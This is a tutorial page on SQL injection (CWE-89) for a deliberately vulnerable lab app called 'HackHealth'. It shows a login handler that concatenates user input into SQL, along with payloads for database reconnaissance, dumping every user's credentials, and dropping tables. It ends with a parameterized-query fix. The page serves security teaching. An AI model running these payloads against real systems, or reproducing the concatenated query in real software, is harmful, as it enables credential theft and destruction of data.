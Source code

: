 
# A03:2021 - Injection

<Callout type="info" emoji="ℹ️">
For the information about **Injection**, visit [page](https://owasp.org/Top10/A03_2021-Injection/)
</Callout>

# SQL Injection

<Callout type="warning" emoji="🔍">
  **CWE-89**: SQL Injection <br />
</Callout>

## Attack
### Code preparation
To prepare for this attack, we need to slightly modify the implementation of handling the login request, because we have already implemented a secure way in section [❕JWT authentication](/cybersecurity/a02/jwt). <br />
Replace the handling of login request in `routes/jwtAuth.ts` with the following code:
```js filename="jwtAuth.ts"  copy showLineNumbers
// LOGIN
router.post("/login", bruteforce.prevent, async (req, res) => {
    const {email, password} = req.body;
    let user = null;

    try {
        user = await pool.query(
            "SELECT email, password from useraccount WHERE email = '" + email + "'"
        );

        if (user?.rows?.length === 0 || user?.length === 0) {
            return res.status(401).json({message: "Invalid email.", user: user});
        }

        const validPassword = password === user.rows[0].password;

        if (!validPassword) {
            return res.status(401).json({message: "Invalid password.", user: user});
        }

        const token = generateJWT(user.rows[0].password);
        res.json({
            success: true,
            message: "Authentication successful!",
            token: token,
            user: user
        });
    } catch (err) {
        console.error(err.message);
        res.status(500).send({message:"Server error", user: user});
    }
});
```

<Callout emoji="💡">
Compared to the previous implementation, we get rid of the `inputValidation` middleware, we handle passwords as plain text and we adjusted the query to be vulnerable to SQL injection.
</Callout>

### Gather internal information
Firstly, we are going to gather some internal information about the database and tables, which will then help us to perform some more serious attacks. <br />
#### **Database type** <br />
* Enter the following inside the email field on the HackHealth login screen.
```sql copy
' UNION SELECT usename, NULL FROM pg_user--
``` 
* Leave the password field empty and click on the login button. <br />
* When you open Developer Tools, in the Console, when digging deeper into `user.rows` in JSON response from the server, you will see the type of database which is used. <br />
<Image src="/a03/a03_1.png" alt="SQL injection console log" width={1000} height={300}/>
#### **Database name** <br />
* Enter the following inside the email field on the HackHealth login screen, keep the password field empty, and hit Login.
```sql copy
' UNION SELECT current_database(), null--
```
* After digging deeper into the servers response, in `user.rows`, you will see the name of the database: `hackhealthdb` <br />
#### **Names of tables** <br />
* In the same way as in the previous step, we can get the names of the tables by inserting the following code into the email field.
```sql copy
'; SELECT table_name FROM information_schema.tables WHERE table_schema='public'; --
```
* Again, after digging deeper into `user[1].rows`, you will see the names of the tables. <br />
    * useraccount
    * appointment
    * medicalreport
<Callout emoji="💡">
To sum up, we have gathered the following information: <br />
* Database type: PostgreSQL
* Database name: hackhealthdb
* Names of tables: useraccount, appointment, medicalreport <br />

We are going to use this information in the next steps.
</Callout>

### Grant unauthorized access
In this attack, we aim to get login credentials for all the users in the table `useraccount`. <br />
Into an email field, we are going to insert the following code:
```sql copy
' OR 1=1; --
```
<Callout type="info" emoji="ℹ️">
This input would cause the SQL query to be constructed as follows: <br />
```sql copy
SELECT email, password form useraccount WHERE email = '' OR 1=1; --
```
The semicolon (;) terminates the current statement and the two dashes (--) indicate a comment, effectively ignoring the remaining part of the original query. The injected SQL code OR 1=1 will always evaluate to true, effectively bypassing the authentication check and returning all records from the "useraccount" table.
</Callout>
* In the response from the server (`user.rows`), we are now able to see all the users with their login credentials. <br />

### Corrupt the tables and database
SQL injection attack is not only about getting the data but also about corrupting the data. <br />
#### **Drop the table** <br />
* Enter the following inside the email field on the HackHealth login screen.
```sql copy
'; DROP TABLE useraccount CASCADE; --
```
* Congratulations, you have just dropped the table `useraccount`! <br />
* Now, when you try to log in with the credentials you have obtained in the previous step, you will not be able to log in -> the table of users just does not exist anymore. <br />
<Callout type="info" emoji="ℹ️">
This was made possible only because when creating the tables, foreign keys were created with CASCADE option. It means that when the table is dropped, all the tables that depend on it are also dropped. <br />
</Callout>

#### **Drop the database** <br />
    Dropping the database is quite more challenging than dropping individual tables. When you will try to execute the command:
    ```sql copy
    '; DROP DATABASE hackhealthdb; --
    ``` 
    you will get an error in the server log: `DROP DATABASE cannot run inside a transaction block`.
    This indicates that PostgreSQL does not allow a database to be dropped while there are active connections to it. This is to prevent accidental data loss due to unintended drops. A solution would be to terminate all running connections to the database, but this could not be done through SQL injection. <br />
    Although the attempt about dropping the whole database was not successful, we have already caused considerable damage.

<Callout type="error" emoji="️🚫">
  Do not forget to put the database to its initial state after the attack. <br />
  To do so, stop the server and run the following commands in the terminal:
    ```bash copy
    npm run db-drop
    npm run db-create
    npm run db-seed
    ```
    After running the following commands, db should be in the initial state.
</Callout>

## Prevention
To prevent SQL injection attacks, it's important to use **parameterized queries** instead of concatenating user input directly into SQL queries. Parameterized queries use placeholders for user input and sanitize the input to prevent malicious SQL code from being executed. <br />
In the source code, we can replace the current implementation of handling login request with the following code:
```js filename="jwtAuth.ts"  copy showLineNumbers
// LOGIN
router.post("/login", bruteforce.prevent, inputValidation, async (req, res) => {
    const {email, password} = req.body;

    try {
        const user = await pool.query(
            "SELECT * FROM useraccount WHERE email = $1",
            [email]
        );

        if (user.rows.length === 0) {
            return res.status(401).json("Invalid email.");
        }

        // VUL A02
        // const validPassword = await bcrypt.compare(password, user.rows[0].password);

        const validPassword = password === user.rows[0].password;

        if (!validPassword) {
            return res.status(401).json("Invalid password.");
        }

        const token = generateJWT(user.rows[0].password);
        res.json({
            success: true,
            message: "Authentication successful!",
            token: token,
        });
    } catch (err) {
        console.error(err.message);
        res.status(500).send("Server error");
    }
});
```
As you can see in the code above, we are using placeholders for user input and sanitizing the input (inputValidation middleware) to prevent malicious SQL code from being executed. <br />
<br />
Also, in the file `Login.js` (easily find by pressing Shift+Shift and typing Login.js), we need to delete the line:
```js copy
console.log(parseJSON)
```
By deleting the line, we will no longer be able to see the response from the server in the Console in Developer Tools, which is a better practice.


## Verification
To verify that the vulnerability has been fixed, you can try running some commands from the Attack section again. The result should be, that injecting malicious SQL code into the email field will not trigger any unintended behavior. <br /> 

## Sources
* https://cwe.mitre.org/data/definitions/89.html\
* Bachelor thesis
